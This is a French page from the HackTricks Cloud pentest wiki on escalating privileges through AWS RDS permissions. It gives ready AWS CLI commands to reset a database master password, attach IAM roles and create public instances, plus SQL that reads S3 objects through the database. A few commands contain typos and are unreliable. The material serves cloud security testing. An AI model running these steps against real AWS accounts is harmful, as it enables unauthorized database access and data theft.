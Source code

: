 # AWS - Élévation de privilèges RDS

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Service de base de données relationnelle

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette autorisation, un attaquant peut **modifier le mot de passe de l'utilisateur principal** et le login à l'intérieur de la base de données :
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Vous devrez être capable de **contacter la base de données** (elles sont généralement accessibles uniquement depuis les réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon la [**documentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur ayant cette autorisation pourrait se connecter à l'instance de la base de données.

### Abus des autorisations IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si en exécutant **`SELECT datname FROM pg_database;`** vous trouvez une base de données appelée **`rdsadmin`**, vous saurez que vous êtes à l'intérieur d'une **base de données AWS postgresql**.
{% endhint %}

Tout d'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à tout autre service AWS. Vous pourriez vérifier cela en examinant les extensions installées :
```sql
SELECT * FROM pg_extension;
```
Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **un certain type d'accès sur S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir si le **cluster a un rôle IAM attaché** dans le champ **`AssociatedRoles`**. Si c'est le cas, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **autorisations** du rôle), vous pourriez **deviner** quels sont les accès supplémentaires dont dispose la base de données.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si vous aviez **des identifiants AWS bruts**, vous pourriez également les utiliser pour accéder aux données S3 avec :
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **n'a pas besoin de modifier une variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dans un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes dans une **base de données AWS RDS mysql**.
{% endhint %}

Dans le mysql, exécutez **`show variables;`** et si les variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`** vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS).

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires telles que Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Rien qu'avec cette autorisation, un attaquant pourrait créer une **nouvelle instance à l'intérieur d'un cluster** qui existe déjà et a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait exposer la nouvelle instance de base de données à Internet :
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant avec les autorisations `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut ensuite potentiellement **accéder à des données sensibles** ou modifier les données dans l'instance.

{% hint style="warning" %}
Certains prérequis du rôle/profil d'instance à attacher (de [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM que Amazon EC2 a l'autorisation d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.

{% hint style="warning" %}
L'instance de la base de données doit être en dehors d'un cluster pour cela.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
